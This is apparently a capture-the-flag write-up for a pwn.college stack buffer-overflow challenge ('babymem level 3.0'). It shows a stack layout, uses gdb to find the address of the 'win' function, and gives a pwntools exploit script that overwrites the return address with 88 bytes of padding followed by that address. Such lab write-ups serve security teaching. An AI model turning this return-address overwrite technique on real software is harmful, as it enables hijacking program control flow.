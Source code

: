 ```
	    | 0x00007ffd2e328c60 (rsp+0x0060) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |  /
	    | 0x00007ffd2e328c68 (rsp+0x0068) | 00 9c 32 2e fd 7f 00 00 | 0x00007ffd2e329c00 | / 
	    | 0x00007ffd2e328c70 (rsp+0x0070) | d0 11 40 00 00 00 00 00 | 0x00000000004011d0 |
	    | 0x00007ffd2e328c78 (rsp+0x0078) | 30 8c 32 2e fd 7f 00 00 | 0x00007ffd2e328c30 |
ebp ------> | 0x00007ffd2e328c80 (rsp+0x0080) | b0 9c 32 2e fd 7f 00 00 | 0x00007ffd2e329cb0 | <------ saved ebp of previous frame
	    | 0x00007ffd2e328c88 (rsp+0x0088) | 9f 2a 40 00 00 00 00 00 | 0x0000000000402a9f | <------ return address
	    +---------------------------------+-------------------------+--------------------+
```


This time there's no pointer to the buffer or to the win variable as there is no win variable in the first place.

In order to execute the `win` function, we have to overwrite the return address with the address of the `win` function.

```
Buffer:                           Padding byte:                     Return address:

00 00 00 00 00 00 00 00              f2 93 28 fd 7f 00 00           9f 2a 40 00 00 00 00 00 
00 00 00 00 00 00 00 00           d0 11 40 00 00 00 00 00
00 00 00 00 00 00 00 00           50 e2 93 28 fd 7f 00 00
00 00 00 00 00 00 00 00           d0 f2 93 28 fd 7f 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 
```

Let's open the program in `gdb`.

```
(gdb) disassemble win

; -- snip --
Dump of assembler code for function win:
   0x000000000040236c <+0>:     endbr64 
; -- snip --
```

As we can see the location of the `win` function is `0x000000000040236c`.

Let's craft our payload.

```python
from pwn import *

padding = b'A' * 88
payload = padding + p64(0x000000000040236c)

p = process('/challenge/babymem_level3.0')
p.recvuntil('size:')
p.sendline('120')

p.recvuntil('bytes)!')
p.send(payload)
p.interactive()
```
